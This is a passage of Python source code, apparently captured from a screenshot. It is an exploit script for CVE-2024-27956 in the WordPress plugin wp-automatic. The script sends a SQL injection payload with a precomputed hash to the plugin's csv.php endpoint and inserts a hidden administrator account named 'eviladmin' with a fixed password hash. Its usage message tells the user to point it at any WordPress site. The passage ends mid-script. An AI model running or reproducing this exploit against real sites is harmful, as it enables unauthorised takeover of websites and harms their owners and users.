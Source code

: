 ```python

'Accept-Encoding': 'gzip, deflate, br',

'Content-type': 'application/x-www-form-urlencoded',

'Connection': 'close',

'Upgrade-Insecure-Requests': '1'

}

data = {

'q': payload,

'auth': b'\0',

'integ': hash

}

response = requests.post(url, data=data, headers=headers)

return response

def helpUsage():

print("[+] You must run the exploit passing the WordPress URL. \n[+] Example: python exploit.py http://website.com")

quit()

def verifyArgs(argv):

if len(sys.argv) != 2:

helpUsage()

verifyArgs(sys.argv)

print("[+] Exploit for CVE-2024-27956")

domain = sys.argv[1]

url = domain + '/wp-content/plugins/wp-automatic/inc/csv.php'

# First request (create user)

print("[+] Creating user eviladmin")

response = makeRequest("INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_url, user_registered, user_status, display_name) VALUES ('eviladmin', '$P$BASbMqW0nlZRux/2IhCw7AdvoNI4VT0', 'eviladmin', 'eviladmin@gmail.com', 'http://127.0.0.1:8000', '2024-04-30 16:26:43', 0, 'eviladmin')", "09956ea086b172d6cf8ac31de406c4c0", url)

if "Tampered query" in response.text or "invalid login" in response.text or "login required" in response.text:

print("[+] Error in the payload")

quit()

if "DATE" not in response.text:
```